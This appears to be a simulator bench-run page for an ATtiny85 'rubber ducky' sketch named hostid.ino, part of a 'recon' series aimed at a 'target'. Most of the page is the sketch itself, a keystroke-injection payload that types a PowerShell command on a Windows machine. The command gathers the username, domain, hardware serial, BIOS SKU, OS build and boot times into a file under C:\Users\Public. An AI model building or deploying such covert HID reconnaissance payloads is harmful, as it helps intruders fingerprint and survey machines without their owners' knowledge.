
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH). The inputs (shaded band) are chosen by the test bench; at power-on: PB2 HIGH.

Above: at 0.1 s.
At 14.6 s:

Timing chart, 0 to 16.1 s (numbered marks = the images above):


The sketch:

hostid.ino
```cpp
// recon/hostid - Tier 2
//
// Machine and user identity: the first thing you want from any target.
//
// (no notes)
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "$cs=Get-CimInstance Win32_ComputerSystem;$os=Get-CimInstance Win32_OperatingSystem;$b=Get-CimInstance Win32_BIOS"
    "[pscustomobject]@{ComputerName=$env:COMPUTERNAME;User=\"$env:USERDOMAIN\\$env:USERNAME\";Manufacturer=$cs.Manufacturer;Model=$cs.Model;Serial=$b.SerialNumber;SKU=$b.SystemSKU;OS=$os.Caption;Version=$os.Version;Build=$os.BuildNumber;InstallDate=$os.InstallDate;LastBoot=$os.LastBootUpTime;RAM_MB=[int]($cs.TotalPhysicalMemory/1MB)}|Format-List"
    R_OUT("hostid.txt")
    R_SHOW("hostid.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
